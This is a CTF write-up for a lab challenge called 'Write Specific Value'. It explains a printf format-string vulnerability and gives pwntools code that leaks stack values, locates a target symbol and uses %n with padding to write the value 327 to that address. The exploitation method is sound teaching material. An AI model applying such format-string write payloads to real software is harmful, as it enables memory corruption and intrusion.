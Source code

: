 # Challenge `Write Specific Value` Writeup

- Vulnerability: 
  - Format strings
- Where:
  - printf function
- Impact:
  - allows to write in arbitrary memory

## Steps to reproduce

Sending the following format string
```
"AAAA.%08x.%08x.%08x.%08x.%08x.%08x.%08x"
```
we can verify that the 7th register is filled with `41414141` (the value of `AAAA`) which tells us that we control the 7th register.

To get the address of the `target` variable we use:
```py
elf = ELF("04_match_value")
target_address = elf.symbols['target']
```

Now we can write the address of the target variable to this register and then use the `%n` specifier to write anything there. However this time we must write a specific value. Since the %n specifier writes the number of bytes written so far, we can use padding to write any amount of bytes we want and then write the value to the target address:
```py
io = connect(HOST, PORT)
payload = p32(target_address) + b"%323x%7$n"
io.sendline(payload)
```

In this case we want to write 327 bytes so by sending the address we are writing 4 bytes and then we write 323 bytes of padding which together will make 327 bytes.

## Implementation

Implementation(write-specific-value.py).
